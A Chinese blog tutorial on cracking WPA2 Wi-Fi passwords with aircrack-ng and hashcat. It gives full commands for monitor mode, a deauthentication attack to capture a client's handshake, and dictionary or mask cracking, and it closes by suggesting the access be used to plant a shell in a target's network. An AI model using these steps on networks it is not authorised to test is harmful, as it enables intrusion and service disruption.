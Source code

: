 #  [ aircrack & hashcat 非字典高速破解目标无线密码](https://klionsec.github.io/2015/04/14/aircrack-hascat/)        

​                            2015-04-14                                                                        [wpa/wpa2 crack](https://klionsec.github.io/categories/wpa-wpa2-crack/)                                    

0x01 挂载好外置无线网卡
  把用于抓包的无线网卡挂到kali中,正常情况下,网卡在成功载入系统后,应该是如下的效果,在虚拟机设置中选择’可移动设备’把你的网卡连到虚拟机里
!["将网卡载入kali"](https://klionsec.github.io/img/1.png)
如下图可以看到系统已自动识别该网卡,并且已自动搜到附近的无线信号
![查看系统是否已经识别该网卡](https://klionsec.github.io/img/2.png)
![看看能不能收到附近的无线信号](https://klionsec.github.io/img/3.png)

0x02 检查无线网卡驱动是否能正常工作
  紧接着,来看下当前系统中是否已经识别出该无线网卡的驱动,假设当前系统内核中已经有了该种无线网卡的驱动,它就会直接显示出当前无线网卡所使用的芯片组,可以看到,我这里用的是RT2800的芯片组(推荐大家直接去某宝买),如果没有,则可能需要你自己去手工编译安装相应的无线网卡驱动,然后再更新下内核模块即可(在linux中编译安装驱动着实是一件比较麻烦的事情,建议买的时候就直接去买aircrack所支持的网卡型号,起码用的时候不至于这么费劲,要相信万能的某宝),但这并不代表你只要把无线网卡驱动安装好就可以用了,需要搞清楚的是,你所使用的无线网卡芯片组必须要被aircrack所支持才可以,因为用无线网卡的最终目的还是用来捕获握手包

```
# airmon-ng  查看当前系统中的所有可用的无线网卡接口
```



![看看aircrack是否已经识别芯片组](https://klionsec.github.io/img/4.png)

0x03 关于aircrack所支持的网卡芯片组列表,请自行参考aircrack官方说明:

```
https://www.aircrack-ng.org/doku.php?id=compatibility_drivers
```



0x04 为了保证aircrack套件在运行的时候不被其他进程所干扰,我们需要先执行以下命令

```
# airmon-ng check kill
```



![aircrack启动检查](https://klionsec.github.io/img/5.png)

0x05 可以看到,当前网卡默认还处在管理模式,这时我们需要手动将其变成监听模式,这样才能进行正常的抓包

```
# iwconfig  使用此命令可查看无线网卡的当前工作模式
```



![查看网卡工作模式](https://klionsec.github.io/img/6.png)

```
# airmon-ng start wlan0   把网卡改为监听模式
```



![将网卡切换为监听模式](https://klionsec.github.io/img/7.png)

```
# iwconfig  再次查看无线网卡工作模式是否真的已经改过来了
```



![看看网卡工作模式是否已经切换成功](https://klionsec.github.io/img/45.png)

0x06
  另外,你的无线网卡在启动监听模式以后,网卡接口名称就变成了wlan0mon,以后只要是在aircrack套件中需要指定网卡接口名称的,都要用这个名字,在老版本的aircrack中默认名称是mon0,而新版本则统一变成了wlan0mon,恩,一切准备就绪之后,我们开始尝试扫描附近的无线接入点,找个有客户端在线的再单独监听,一定要注意,”目标无线必须要有客户端在线”,否则是抓不到包的,这也是整个无线破解最核心的地方,因为我们要把对方的某个在线客户端蹬掉线,才能截获他的握手包

```
# airodump-ng wlan0mon 开始尝试扫描附近的无线信号,这里就用我们自己的wifi来进行测试,用于测试的wifi的mac和热点名称如下(klionsec)
```



![扫描附近的无线信号](https://klionsec.github.io/img/8.png)

0x07
  通过上面的扫描,我们选定了名称为”klionsec”的wpa2无线热点作为我们的攻击目标,这里我们需要先记录下目标无线的工作信道以及对应的mac,(后面单独监听时需要用到这些信息),而后,单独监听目标无线热点,注意这里在监听目标无线的过程中不要断开,直到整个抓包过程完成为止,接下来要做的事情就是等待客户端上线,然后进行抓包,例如,下面就表示有一个客户端在线,其实,抓握手包的原理就是先把这个在线的用户给蹬掉线,然后再截获它的握手包,而这个包里就有我们想要的无线密码

```
# airodump-ng --bssid DC:EE:06:96:B7:B8 -c 6 -w sec wlan0mon 监听目标无线,并把截获到的数据写到指定文件中
```



![单独监听目标无线](https://klionsec.github.io/img/9.png)

0x08
  发现客户端在线稳定后,就可以向目标发射’ddos’流量了,直到我们在监听的终端下看到有握手包出现为止,如果第一轮包发完成后,并没看到握手包,别着急,先等个几十秒,或者隔个五六秒再发一次即可,正常情况下,基本一次就能搞定

```
# aireplay-ng --deauth 15 -a DC:EE:06:96:B7:B8 wlan0mon
```



![开始发动ddos攻击](https://klionsec.github.io/img/10.png)

可以看到,这时握手包已被正常抓获,此时监听也就可以断开了,注意观察终端的右上角,那个带有`handshake`标志的就是握手包的意思
![成功获取握手包](https://klionsec.github.io/img/11.png)

0x09
  在我们抓获握手包以后,接下来的事情就非常简单了,你可以直接用aircrack加载弱口令字典进行爆破,当然,个人是十分不建议用字典(效率,实用性,太低,过于浪费时间),推荐大家直接把包处理一下丢给hashcat或者某宝去跑就行了,两种方法具体操作如下:

(1)第一种,利用aircrack加载字典进行爆破,反正我自己很少用,基本没用过,先不说速度如何,关键还是看你的字典是否靠谱,实际测试中,个人并不建议用,因为根本没有靠谱性可言,因为这里仅仅是测试,实际渗透中,哪有太多的时间让你去跑[比如,实地渗透]

```
# aircrack-ng --bssid DC:EE:06:96:B7:B8 -w pass.txt sec-01.cap   会有三个文件,但最终的密码在cap文件
```



![破解握手包中的无线密码](https://klionsec.github.io/img/12.png)

(2)第二种,直接利用hashcat跑hash,不过需要你事先稍微整理下数据包

```
# wpaclean wpapass.cap sec-01.cap  	  可以看到这里已经成功识别出了目标无线id
```



![提取数据包中的hash](https://klionsec.github.io/img/13.png)

```
# aircrack-ng wpapass.cap -J wpahash  把数据包转换成hashcat能认识的hash类型
```



![转换成hashcat认识的hash格式](https://klionsec.github.io/img/15.png)

```
# hashcat -m 2500 -a 3 wpahash.hccap ?u?l?l?l?l?d?d?d  因为我事先已经知道密码,所以直接这样给掩码会跑的更快一些
```



下面是hashcat的破解结果,可以看到,像wpa这种加密算法,对于hashcat来讲,几乎是瞬间就被秒出来了,因为事先忘记了把wifi改的简单点(`汗……`),所以这里不得不拿之前的一个测试案例来说明了,因为这次用于测试的wifi密码比较复杂,要是硬破,估计明年也破不出来,所以没必要在这里浪费时间,重要的是把方法告诉大家就好,测试结果并不是最重要的,能把要说明的问题说清楚即可
![破解结果](https://klionsec.github.io/img/hash.png)

0x10
  至此,整个无线密码破解的经典步骤就算完成了,纵观全文,其实,并没多少技术含量在里面,跟着我的文档一步步的来,抓个包,跑个密码基本还是没什么问题的,其实,如果真的特别想关注底层的细节,不妨自己通过wireshark手工完成这一过程,可以明确告诉大家的是,这样是绝对可行的,请自行尝试


一点小结:
  在破解无线密码的问题上,大家大可不用太过纠结,破密码的最终目的,也是希望能通过这种方式来在目标上开个口子,仅此而已,如果真的是哪天运气爆棚,直接捅到目标的办公网,自然是求之不得,因为毕竟是在实地,可能留给我们的时间也不会太多,还会有其它诸多的不便,想短时间内把整个内网摸透,可能也来不及,但想办法先在目标内网留个shell稳住入口,回去接着慢慢搞,还是可行的,一般对于从外部打进去非常难的情况下,这也许也是一种切实可行的渗透手段,祝大家好运吧,不过,最后,还是有句话不得不提醒大家,访问未授权的系统本身就是违法的,望大家洁身自好……!

​                        [#wpa2](https://klionsec.github.io/tags/wpa2/)        